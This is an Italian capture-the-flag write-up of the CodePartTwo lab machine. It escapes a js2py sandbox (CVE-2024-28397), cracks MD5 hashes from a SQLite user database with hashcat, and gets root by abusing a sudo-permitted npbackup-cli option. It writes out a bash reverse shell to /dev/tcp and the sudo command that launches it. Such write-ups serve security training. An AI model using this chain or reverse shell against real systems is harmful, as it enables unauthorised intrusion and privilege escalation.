

# CODEPARTTWO

Facendo una scansione con nmap e troviamo 2 porte aperte, la 22 con ssh e la 80 con http

Sul sito vediamo che possiamo scaricare il codice sorgente della web app e dentro requirements.txt troviamo js2py alla versione 0.74, cercando su internet vediamo che è vulnerabile alla CVE-2024-28397, che ci permette di ottenere un riferimento ad un oggetto python e poter lanciare comandi arbitrari sul target, una sandbox escape

Dopo aver creato un utente ed esserci loggati vediamo un editor dove poter scrivere codice javascript, in un repository su GitHub ho trovato una reverse shell da poter lanciare, ma prima mettiamoci in ascolto sulla nostra macchina

All'interno dell'applicazione troviamo un DB al quale possiamo collegarci e troviamo 2 utenti con l'hash delle loro password

[sqlite users.db](./immagini/4-users-db.png)

Identifichiamo il tipo di hash con hash-identifier e vediamo che è un MD5

[hash-identifier](./immagini/5-hash-identifier.png)

A questo punto possiamo usare hashcat per crackare gli hash, salvando in un file i due <nomeUtente>:<hash> e troviamo la password dell'utente marco

[hashcat -m 0 --username md5.hash (usr/share/wordlist/rockyou.txt)](./immagini/6-crack-hash.png)

E' possibile usare quelle credenziali per entrare con ssh ed ottenere la user flag

Con 'sudo -l' vediamo che possiamo lanciare il comando /usr/local/bin/npbackup-cli senza la password, questo comando ha bisogno di un file di configurazione (che abbiamo nella nostra home), un'azione da eseguire, ad esempio un backup con l'opzione -b e abbiamo la possibilità di lanciare un comando a nostro piacimento con --external-backend-binary

[sudo -l](./immagini/8-sudo-l.png)

Quindi creiamo un semplice file con una rev shell in bash

[#!/bin/bash /bin/bash -i & /dev/tcp/<ip>/<porta> 0>&1](./immagini/9-shell-script.png)

Ora mettiamoci in ascolto sulla nostra kali con la porta scelta nella rev shell e lanciamo il comando npbackup-cli con sudo

[sudo /usr/local/bin/npbackup-cli -c npbackup.conf -b --external-backend-binary="/home/marco/shell.sh"](./immagini/10-run-rev-shell.png)

Otteniamo una shell come root e possiamo prendere l'ultima flag

